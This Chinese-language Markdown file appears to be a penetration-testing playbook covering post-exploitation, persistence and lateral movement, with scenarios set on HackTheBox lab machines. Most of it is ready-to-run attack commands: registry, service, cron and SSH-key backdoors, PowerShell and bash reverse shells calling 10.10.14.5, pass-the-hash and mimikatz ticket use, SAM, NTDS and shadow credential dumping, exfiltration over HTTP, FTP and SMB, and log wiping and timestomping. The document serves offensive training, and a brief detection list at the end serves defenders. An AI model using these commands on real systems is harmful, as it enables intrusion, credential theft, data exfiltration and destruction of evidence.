

# 后渗透和持久化状态机

## 概述
后渗透阶段是在获得初始访问权限后，进行权限维持、横向移动、数据窃取和痕迹清理的过程。本状态机涵盖从权限巩固到长期控制的完整流程。

## 攻击流程图



## 状态转换表

| 当前状态 | 条件 | 动作 | 下一状态 | 工具 |
|---------|------|------|---------|------|
| 初始访问 | 低权限 | 提权 | 高权限 | linpeas, winpeas |
| 初始访问 | 高权限 | 建立持久化 | 持久化 | - |
| Windows 持久化 | 注册表可写 | Run 键 | 验证 | reg |
| Windows 持久化 | 服务权限 | 恶意服务 | 验证 | sc |
| Windows 持久化 | 计划任务 | schtasks | 验证 | schtasks |
| Linux 持久化 | Cron 可用 | crontab | 验证 | crontab |
| Linux 持久化 | SSH 可用 | authorized_keys | 验证 | ssh-keygen |
| 持久化验证 | 重启测试 | 重启系统 | 确认连接 | - |
| 横向移动 | 有哈希 | Pass-the-Hash | 新主机 | psexec, wmiexec |
| 横向移动 | 有票据 | Pass-the-Ticket | 新主机 | mimikatz |
| 数据窃取 | 敏感文件 | 外传数据 | 完成 | scp, ftp |
| 痕迹清理 | 有日志 | 清理日志 | 完成 | wevtutil, shred |

## 决策树

### 1. Windows 持久化技术选择
```
IF 有管理员权限
  THEN 选择高权限持久化
    # 注册表 Run 键
    reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\backdoor.exe"

    # 创建服务
    sc create Backdoor binPath= "C:\backdoor.exe" start= auto
    sc start Backdoor

    # WMI 事件订阅（隐蔽）
    wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="Backdoor", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

ELSE IF 有普通用户权限
  THEN 选择用户级持久化
    # 用户 Run 键
    reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Users\user\backdoor.exe"

    # 启动文件夹
    copy backdoor.exe "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"

    # 计划任务
    schtasks /create /tn "Backdoor" /tr "C:\backdoor.exe" /sc onlogon /ru "SYSTEM"
```

### 2. Linux 持久化技术选择
```
IF 有 root 权限
  THEN 选择系统级持久化
    # systemd 服务
    cat > /etc/systemd/system/backdoor.service << EOF
    [Unit]
    Description=Backdoor Service
    [Service]
    ExecStart=/usr/local/bin/backdoor
    Restart=always
    [Install]
    WantedBy=multi-user.target
    EOF
    systemctl enable backdoor
    systemctl start backdoor

    # rc.local
    echo "/usr/local/bin/backdoor &" >> /etc/rc.local
    chmod +x /etc/rc.local

ELSE IF 有普通用户权限
  THEN 选择用户级持久化
    # crontab
    (crontab -l 2>/dev/null; echo "@reboot /home/user/backdoor") | crontab -

    # .bashrc
    echo "/home/user/backdoor &" >> ~/.bashrc

    # SSH 密钥
    mkdir -p ~/.ssh
    echo "ssh-rsa AAAA... attacker@kali" >> ~/.ssh/authorized_keys
    chmod 600 ~/.ssh/authorized_keys
```

### 3. 横向移动技术选择
```
IF 获得 NTLM 哈希
  THEN 使用 Pass-the-Hash
    # psexec
    psexec.py domain/user@target -hashes :ntlm_hash

    # wmiexec
    wmiexec.py domain/user@target -hashes :ntlm_hash

    # crackmapexec
    crackmapexec smb target -u user -H ntlm_hash

ELSE IF 获得 Kerberos 票据
  THEN 使用 Pass-the-Ticket
    # 导出票据
    mimikatz # sekurlsa::tickets /export

    # 注入票据
    mimikatz # kerberos::ptt ticket.kirbi

    # 访问目标
    dir \\target\c$

ELSE IF 有明文密码
  THEN 使用远程执行
    # WinRM
    evil-winrm -i target -u user -p password

    # SSH
    ssh user@target

    # RDP
    rdesktop -u user -p password target
```

### 4. 数据窃取
```
IF 在 Windows 系统
  THEN 窃取敏感数据
    # SAM 数据库
    reg save HKLM\SAM sam.hive
    reg save HKLM\SYSTEM system.hive

    # NTDS.dit（域控）
    ntdsutil "ac i ntds" "ifm" "create full C:\temp" q q

    # 浏览器凭证
    lazagne.exe browsers

    # 文件搜索
    dir /s /b C:\*.txt | findstr /i "password"

ELSE IF 在 Linux 系统
  THEN 窃取敏感数据
    # /etc/shadow
    cat /etc/shadow

    # SSH 密钥
    find / -name id_rsa 2>/dev/null

    # 历史命令
    cat ~/.bash_history

    # 敏感文件
    find / -name "*.conf" -o -name "*.key" 2>/dev/null
```

### 5. 痕迹清理
```
IF 在 Windows 系统
  THEN 清理日志
    # 清除事件日志
    wevtutil cl System
    wevtutil cl Security
    wevtutil cl Application

    # 清除 PowerShell 历史
    Remove-Item (Get-PSReadlineOption).HistorySavePath

    # 清除文件时间戳
    timestomp backdoor.exe -z "2020-01-01 00:00:00"

ELSE IF 在 Linux 系统
  THEN 清理日志
    # 清除命令历史
    history -c
    rm ~/.bash_history
    ln -sf /dev/null ~/.bash_history

    # 清除系统日志
    echo "" > /var/log/auth.log
    echo "" > /var/log/syslog

    # 安全删除文件
    shred -vfz -n 10 sensitive_file
```

## 实战场景

### 场景 1: Windows 注册表持久化
**HTB 靶机**: Bastion

**攻击链路**:
1. 获得管理员权限后建立持久化
   ```powershell
   # 创建反向 shell 脚本
   $client = New-Object System.Net.Sockets.TCPClient('10.10.14.5',4444)
   $stream = $client.GetStream()
   [byte[]]$bytes = 0..65535|%{0}
   while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
       $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
       $sendback = (iex $data 2>&1 | Out-String )
       $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
       $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
       $stream.Write($sendbyte,0,$sendbyte.Length)
       $stream.Flush()
   }
   ```
   保存为 `C:\Windows\Temp\backdoor.ps1`

2. 添加注册表 Run 键
   ```cmd
   reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "powershell.exe -WindowStyle Hidden -File C:\Windows\Temp\backdoor.ps1"
   ```

3. 验证持久化
   ```cmd
   reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run"
   ```

4. 重启后自动连接
   ```bash
   # Kali 监听
   nc -lvnp 4444
   ```

### 场景 2: Linux Cron 持久化
**HTB 靶机**: Beep

**攻击链路**:
1. 创建反向 shell 脚本
   ```bash
   cat > /tmp/.backdoor.sh << 'EOF'
   #!/bin/bash
   bash -i >& /dev/tcp/10.10.14.5/4444 0>&1
   EOF
   chmod +x /tmp/.backdoor.sh
   ```

2. 添加 crontab
   ```bash
   (crontab -l 2>/dev/null; echo "*/5 * * * * /tmp/.backdoor.sh") | crontab -
   ```
   每 5 分钟执行一次

3. 验证 crontab
   ```bash
   crontab -l
   ```

4. 监听连接
   ```bash
   nc -lvnp 4444
   ```

### 场景 3: SSH 密钥持久化
**HTB 靶机**: Lame

**攻击链路**:
1. 生成 SSH 密钥对
   ```bash
   ssh-keygen -t rsa -b 4096 -f ~/.ssh/htb_key -N ""
   ```

2. 将公钥添加到目标
   ```bash
   # 在目标系统上
   mkdir -p ~/.ssh
   echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC..." >> ~/.ssh/authorized_keys
   chmod 700 ~/.ssh
   chmod 600 ~/.ssh/authorized_keys
   ```

3. 使用密钥登录
   ```bash
   ssh -i ~/.ssh/htb_key user@target
   ```

### 场景 4: Windows 服务持久化
**HTB 靶机**: Arctic

**攻击链路**:
1. 创建恶意可执行文件
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe -o backdoor.exe
   ```

2. 上传到目标
   ```bash
   # 使用已有的 shell
   certutil -urlcache -f http://10.10.14.5/backdoor.exe C:\Windows\Temp\svchost.exe
   ```

3. 创建服务
   ```cmd
   sc create "Windows Update Service" binPath= "C:\Windows\Temp\svchost.exe" start= auto
   sc description "Windows Update Service" "Provides software updates for Windows"
   sc start "Windows Update Service"
   ```

4. 验证服务
   ```cmd
   sc query "Windows Update Service"
   ```

### 场景 5: Pass-the-Hash 横向移动
**HTB 靶机**: Active

**攻击链路**:
1. 获得 NTLM 哈希
   ```bash
   secretsdump.py domain/user:pass@10.10.10.100
   ```
   输出: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`

2. 使用 Pass-the-Hash 横向移动
   ```bash
   psexec.py domain/Administrator@10.10.10.101 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
   ```

3. 或使用 crackmapexec 批量测试
   ```bash
   crackmapexec smb 10.10.10.0/24 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0 --continue-on-success
   ```

4. 在新主机上建立持久化
   ```bash
   # 创建新用户
   net user backdoor P@ssw0rd /add
   net localgroup administrators backdoor /add
   ```

### 场景 6: 数据窃取和外传
**HTB 靶机**: Bankrobber

**攻击链路**:
1. 搜索敏感文件
   ```powershell
   Get-ChildItem -Path C:\ -Include *.txt,*.doc,*.xls,*.pdf -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password","credit card","ssn"
   ```

2. 压缩数据
   ```powershell
   Compress-Archive -Path C:\Users\admin\Documents\* -DestinationPath C:\Windows\Temp\data.zip
   ```

3. 外传数据
   ```powershell
   # 方法 1: HTTP POST
   Invoke-WebRequest -Uri http://10.10.14.5:8000/upload -Method POST -InFile C:\Windows\Temp\data.zip

   # 方法 2: FTP
   $webclient = New-Object System.Net.WebClient
   $webclient.UploadFile("ftp://10.10.14.5/data.zip", "C:\Windows\Temp\data.zip")

   # 方法 3: SMB
   copy C:\Windows\Temp\data.zip \\10.10.14.5\share\
   ```

4. Kali 接收
   ```bash
   # HTTP 服务器
   python3 -m http.server 8000

   # FTP 服务器
   python3 -m pyftpdlib -p 21 -w

   # SMB 服务器
   impacket-smbserver share /tmp/share -smb2support
   ```

## 工具对比

| 工具 | 类型 | 优势 | 劣势 | 使用场景 |
|------|------|------|------|---------|
| **Metasploit** | 综合框架 | 功能全面，自动化 | 容易被检测 | 快速后渗透 |
| **Empire/Starkiller** | PowerShell 框架 | 无文件攻击，隐蔽 | 仅限 Windows | Windows 后渗透 |
| **Covenant** | C# 框架 | 现代化，绕过 AV | 学习曲线陡 | 高级 Windows 攻击 |
| **Impacket** | Python 工具集 | 轻量，灵活 | 需要手动操作 | 横向移动 |
| **Mimikatz** | 凭证窃取 | 功能强大 | 被 AV 重点监控 | 凭证提取 |
| **BloodHound** | AD 分析 | 可视化攻击路径 | 需要数据收集 | 域环境分析 |

## 关键技巧

### 1. 隐蔽持久化
```bash
# Windows: 使用 WMI 事件订阅（难以检测）
# 创建事件过滤器
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="Backdoor", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

# Linux: 使用 LD_PRELOAD 劫持
echo "/path/to/backdoor.so" > /etc/ld.so.preload
```

### 2. 无文件持久化
```powershell
# Windows: 注册表存储 payload
$payload = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($script))
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion" /v Data /t REG_SZ /d $payload

# 执行
$data = (Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion").Data
$script = [System.Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($data))
IEX $script
```

### 3. 痕迹清理自动化
```bash
# Linux 清理脚本
cat > /tmp/cleanup.sh << 'EOF'
#!/bin/bash
history -c
rm ~/.bash_history
ln -sf /dev/null ~/.bash_history
find /var/log -type f -exec sh -c '> {}' \;
shred -vfz -n 10 /tmp/cleanup.sh
EOF
chmod +x /tmp/cleanup.sh
/tmp/cleanup.sh
```

### 4. 横向移动自动化
```bash
# 使用 crackmapexec 批量横向移动
crackmapexec smb 10.10.10.0/24 -u Administrator -H ntlm_hash --exec-method wmiexec -x "whoami"

# 自动建立持久化
crackmapexec smb 10.10.10.0/24 -u Administrator -H ntlm_hash -M empire_exec -o LISTENER=http
```

## 防御检测

**攻击者视角的防御绕过**:
- 使用无文件技术避免磁盘写入
- 使用合法工具（LOLBins）避免 AV 检测
- 加密 C2 通信
- 使用域信任关系横向移动
- 定期更换持久化位置

**防御者检测指标**:
- 异常的注册表 Run 键
- 新创建的服务
- 异常的计划任务
- 异常的网络连接
- 日志被清空或篡改
- 异常的进程树
- Pass-the-Hash 攻击特征

## 相关状态机
- [05-privilege-escalation.md](05-privilege-escalation.md) - 提权后建立持久化
- [04-active-directory-attack.md](04-active-directory-attack.md) - 域环境横向移动
- [06-credential-extraction.md](06-credential-extraction.md) - 凭证窃取
- [08-password-attack.md](08-password-attack.md) - 使用窃取的凭证
